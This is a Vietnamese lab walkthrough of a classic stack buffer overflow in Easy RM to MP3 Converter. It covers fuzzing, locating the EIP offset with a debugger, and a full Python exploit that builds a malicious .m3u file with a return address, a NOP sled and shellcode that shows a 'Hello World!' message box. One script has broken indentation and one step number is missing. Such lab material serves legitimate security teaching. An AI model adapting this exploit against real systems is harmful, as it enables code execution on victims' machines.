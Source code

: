 # babe kajima 

## Mô hình 

- Sử dụng CentOS7 cài đặt python 
- Sử dụng win7 32 bit cài đặt python 2.7.14

## Tải phần mềm Easy RM to MP3 Converter

Bước 1: 

- Tải phần mềm cài đặt tại <a href="https://samsclass.info/127/proj/707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter.exe">đây</a>.

- Sau khi cài đặt xong 


    <img src="https://i.imgur.com/i3F63B2.png">

- Trên máy CentOS sử dụng chương trình python tạo ra 10000 kí tự A 

    ```
    vim gen_payload.py
    ```
    ```
    #!/usr/bin/python
    attack = 'A' * 10000
    print attack
    ````

    Ghi vào một file đuôi m3u

    ```
    python gen_payload.py > demo.m3u
    ```

    Sử dụng python run webserver 

    ```
    python -m SimpleHTTPServer 8888
    ```

- Trên máy win7 truy cập vào http://IP_centos:8888 tải file demo.m3u

    <img src="https://i.imgur.com/2sFEiyO.png">

- Chạy demo.m3u trên ứng dụng convert 

    Chọn Load sau đó tới đường dẫn thư mục chứa demo.m3u đã tải về 

    <img src="https://i.imgur.com/cpguxpo.png">

Bước 2: 

- Làm tương tự bước 1 tăng lên 20000 kí tự 
- Đến 30000 kí tự ứng dụng bị crash 

    <img src="https://i.imgur.com/OQcdziQ.png">

Bước 3: 

- Tạo ra một chuỗi payload để xác định độ dài buffer 

    ```
    #!/usr/bin/python

    prefix = 'A' * 20000
    chars = ''
    for a in range(0x41, 0x5A):
    for i in range(0x30, 0x3A):
        for j in range(0x30, 0x3A):
            chars += chr(a) + chr(a) + chr(i) + chr(j)
    attack = prefix + chars
    print attack
    ```

    ```
    python gen_payload.py > payload.m3u
    ```

    payload gồm 20000 kí tự A và 25000 một nhóm gồm 4 kí tự có dạng như sau 

    ```
    A...
    A...
    A...
    AA00 AA01 AA02 ... AA98 AA99 
    BB00 BB01 BB02 ... BB98 BB99 
                ...
    PP00 ...  PP22 PP23 ... PP99 
                ...
    YY00 YY01 YY02 ... YY98 YY99
    ```


Bước 4: 

- Mở Immunity Debugger click File => Open 

    <img src="https://i.imgur.com/QQIRM2Q.png">

- F9 để run ứng dụng 
- Load file chứa payload

    <img src="https://i.imgur.com/ZGf8pRw.png">

- Giá trị EIP đang là 50313250 

```
50 P
31 1
32 2
50 P
```
Intel processors are "Little Endian", so addresses are inserted in reverse order => EIP là 'P21P'

- P21P năm ở hàng số  16 cột số  21 => 15*400 + 21*4 +1

=> buffer có độ dài 6085


Bước 6: exploit 

```
#!/usr/bin/python

prefix = 'A' * (20000 + 15*400 + 21*4 + 1)
eip = '\x58\xb0\x01\x10'
skip4 = 'FFFF'
nopsled = '\x90' * 16
shellcode = (
"\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" + 
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
)
int3 = '\xCC'
padding = 'F' * (30000 - len(prefix) - 4 -4 -16 - 1 - len(shellcode))
attack = prefix + eip + skip4 + nopsled + shellcode + int3 + padding
print attack
```

Bước 7: 

<img src="https://i.imgur.com/xUTdzLO.gif">
